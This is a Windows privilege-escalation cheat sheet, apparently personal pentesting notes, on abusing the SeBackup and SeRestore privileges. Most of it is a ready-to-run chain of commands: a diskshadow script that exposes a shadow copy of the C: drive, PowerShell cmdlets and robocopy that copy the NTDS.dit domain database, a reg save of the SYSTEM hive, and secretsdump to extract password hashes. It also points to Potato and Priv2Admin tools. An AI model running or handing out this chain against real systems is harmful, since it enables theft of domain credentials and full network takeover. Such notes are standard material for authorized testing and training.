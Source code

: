 ## SeRestore and SeBackup

- Use robocopy to have access to everything (/b)

### Best option : ntds.dit and system :

**Pay attention, use a nc64.exe to use diskshadow or it will doesn't work**
- On windows machine : upload a file script.txt with : 
```
set context persistent nowriters
add volume c: alias dmwong
create
expose %dmwong% z:
```
- Then : `diskshadow -s script.txt`


- Upload dlls from https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug on windows machine

- Import it :
```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
- Make the backup :
```
Set-SeBackupPrivilege
Get-SeBackupPrivilege
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit c:\temp\ndts.dit
reg save hklm\system c:\temp\system.bak
```

- If the `Copy-File...` command doesn't work, use robocopy instead :)

- Extract your file:  : ```python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system.bak LOCAL```


## SeBackup : 

https://github.com/giuliano108/SeBackupPrivilege

https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1

## PayloadsAllTheThings

## Priv2Admin

https://github.com/gtworek/Priv2Admin

https://roberthosborne.com/privesc

## SeImpersonate and SeAssignPrimaryToken

RoguePotato / JuicyPotato ...